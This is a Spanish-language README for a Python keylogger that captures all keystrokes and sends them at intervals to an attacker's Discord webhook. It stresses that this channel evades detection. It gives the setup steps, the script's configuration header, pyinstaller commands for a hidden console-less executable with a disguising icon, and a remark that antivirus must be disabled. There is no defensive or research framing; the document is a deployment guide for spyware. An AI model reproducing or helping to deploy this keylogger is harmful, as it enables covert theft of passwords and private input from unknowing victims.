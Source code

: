 
# Keylogger que reporta a Discord #

Este script de python capturara todas las teclas apretadas durante una ventana de tiempo predefinida y las reportara a un servidor de Discord por medio de Webhooks. a diferencia de los metodos tradicionales como "Guardar en un txt" o "Enviar a un email", este metodo permanece indetectado ya que los request de webhook son considerados trafico normal de Discord.


## Deployment

Tener Python instalado en su maquina, descargar el lenguaje desde [aqui](https://www.python.org/downloads/).


## Instalar librerias requeridas
```
python -m pip install -r requirements.txt
```

## Crear un servidor de Discord

Puedes usar [este](https://support.discord.com/hc/en-us/articles/204849977-How-do-I-create-a-server-) articulo para ver como hacerlo.

## Crear un Discord Webhook

Ingresa a la configuracion del servidor y selecciona Intergrations >>  Webhooks y crear un nuevo Webhook, se lo puede customizar y darle un nombre y un icono. Es necesario copiar al URL del webhook.

![screenshot](https://i.imgur.com/i084ESb.png)

## Editar keylogger.py

Ahora que poseemos el webhook podemos editar el script en python. Debemos añadir la url al archivo y asegurarnos de colocar el timeframe en el cual deseamos que el kelogger haga los reportes. 

```Python
import keyboard,os
from threading import Timer
from datetime import datetime
from discord_webhook import DiscordWebhook, DiscordEmbed

SEND_REPORT_EVERY = "TIEMPO_EN_SEGUNDOS_ACA"
WEBHOOK = "URL_DEL_WEBHOOK_ACA"
```

## Ejecutar el script

Una vez hecho eso, podremos ejecutar el script correctamente.
Para ejecutar el script solo debemos colocar esto en la terminal:
```
python keylogger.py
```
si todo sale bien deberiamos ver el reporte en discord despues de esperar el tiempo establecido.
![c2](https://imgur.com/MxKQE7n.png)

## Compilar el script

Para convertir el archivo en un ejecutable necesitaremos la libreria  pyinstaller que fue incluida en el archivo requirements.txt.
Debemos abrir una terminal en el directorio donde se encuentre el archivo.
```
pyinstaller keylogger.py --onefile --noconsole
```
Por si desea un icono custom para el exe.
```
pyinstaller keylogger.py --onefile --noconsole --icon=ejemplo.ico
```

(Es necesario desactivar el windows defender/antivirus para probrar el programa)

# Instalador

Si se desea crear un instalador para el programa podemos seguir [este](https://www.youtube.com/watch?v=cVN62zhiNH0&t=519s) tutorial

